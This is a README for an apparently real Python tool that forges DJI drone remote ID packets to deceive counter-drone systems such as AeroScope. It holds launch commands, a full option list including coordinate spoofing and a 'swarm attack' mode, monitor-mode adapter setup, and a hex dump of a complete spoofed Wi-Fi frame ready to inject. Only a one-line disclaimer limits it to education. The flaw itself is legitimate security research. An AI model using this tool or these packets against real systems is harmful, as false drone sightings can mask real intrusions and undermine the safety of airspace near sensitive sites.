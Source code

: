 # DJI Drone Spoof Attack
A Python command-line tool to spoof DJI drones, tricking c-UAV systems like AeroScope (as of May 2022)

## Background
[DJI AeroScope](https://www.dji.com/aeroscope) systems do not verify the validity of drone remote ID packets, making them susceptible to over-the-air spoofing attacks. An attacker equipped with a network adapter in monitor mode can craft and inject spoofed drone remote ID packets, fooling the AeroScope system into detecting fake drones.

These over-the-air spoofing attacks cannot be mitigated because they exploit an inherent design flaw in DJI’s remote identification technology—**the lack of identity verification**.

## Tool Overview
This Python script enables attackers to create spoofed DJI drone remote ID packets, including:

* **Model:** customize fake drone models
* **Packet Type:** choose between different remote ID packet types
* **Altitude & Height:** specify values to simulate drone movements
* **GPS Coordinates:** spoof drone and ground station locations
* **Swarm Attack:** simulate a coordinated swarm of drones (`--swarm`)

The spoofed packets are saved in a packet capture `.pcap` file, allowing for analysis or replay attacks. 

The tool supports the generation of various packet types, including[^1]:

* Generic License Plate (serial number only)
* Enhanced Wi-Fi packets
* OcuSync packets

## Disclaimer
This tool is intended for educational purposes only. Do not use it for illegal activities, and always respect local regulations regarding drone usage and airspace security.

## Requirements
To run this tool, you'll need:

* Python dependencies: `scapy`, `binascii`, etc.
* Network adapter: capable of being set to monitor mode on channel 6 via `airmon-ng` package

## Usage

### Basic Command
`sudo python3 dji_spoof.py`

If no drone specified, the script will default to Inspire 1 with legitimate random serial numbers. 

### Help Menu
`sudo python3 dji_spoof.py -h`

This displays all possible command-line arguments:

```
A DJI Remote ID spoofer for UAVs.

optional arguments:
  -h, --help            show this help message and exit
  -m MODEL, --model MODEL
                        Specify the DJI model number to spoof (Inspire 1 is default).
                        A legitimate random serial number will be generated per model.

  -i INTERFACE, --interface INTERFACE
                        the network interface to launch attacks
  --packet PACKET       Input the packet type:

                            0: Generic License Plate (serial number only, not model)
                            2: Enhanced Wi-Fi
                            3: OcuSync (SDR)

  --altitude ALTITUDE   Input the altitude of the drone
  --height HEIGHT       Input the height of the drone
  --DRONE_LON DRONE_LON
                        Input the longitude of the drone
  --DRONE_LAT DRONE_LAT
                        Input the latitude of the drone
  --CONTROLLER_LON CONTROLLER_LON
                        Input the longitude of the controller
  --CONTROLLER_LAT CONTROLLER_LAT
                        Input the latitude of the controller
  --swarm               Flag to enable a swarm drone attack on the AeroScope
  --pcap PCAP           Save the attack as a .pcap file
```

### Spoofed Inspire 1 Example
```
[+] MODEL: Inspire 1
[+] SERIAL NO.: W215AAOZCSAFUJ34
[+] DRONE HEIGHT: 22.4
[+] DRONE LONGITUDE: -110.012052
[+] DRONE LATITUDE: 35.294722
[+] CONTROLLER LONGITUDE: -95.957371
[+] CONTROLLER LATITUDE: 35.284722
[+] PACKET TYPE: Enhanced Wi-Fi (2)

====================== Frame =========================
0000  00 00 08 00 00 00 00 00 80 00 00 00 FF FF FF FF  ................
0010  FF FF 01 02 03 04 05 06 01 02 03 04 05 06 00 00  ................
0020  00 08 36 52 53 47 4E 4A 57 35 01 04 01 05 07 09  ..6RSGNJW5......
0030  03 01 0B DD 52 26 37 12 58 62 13 10 01 41 00 DF  ....R&7.Xb...A..
0040  0F 57 32 31 35 41 41 4F 5A 43 53 41 46 55 4A 33  .W215AAOZCSAFUJ3
0050  34 2B 05 DB FE DB FE 5D 00 81 00 E0 00 43 00 B8  4+.....].....C..
0060  00 3E 00 D9 00 75 00 17 00 38 73 00 FF 09 F8 5D  .>...u...8s....]
0070  00 01 12 35 37 36 39 36 33 39 33 39 32 34 32 39  ...5769639392429
0080  39 31 31 31 31 00 00                             91111..

[*] Press enter to launch attack...
```

## Licensing
This project is licensed under the terms of the MIT license.

[^1]: https://www.researchgate.net/profile/Margaret-Smith-18/publication/372509234_The_Irregulars_Third-Party_Cyber_Actors_and_Digital_Resistance_Movements_in_the_Ukraine_Conflict/links/660bddad10ca867987365aff/The-Irregulars-Third-Party-Cyber-Actors-and-Digital-Resistance-Movements-in-the-Ukraine-Conflict.pdf#page=295
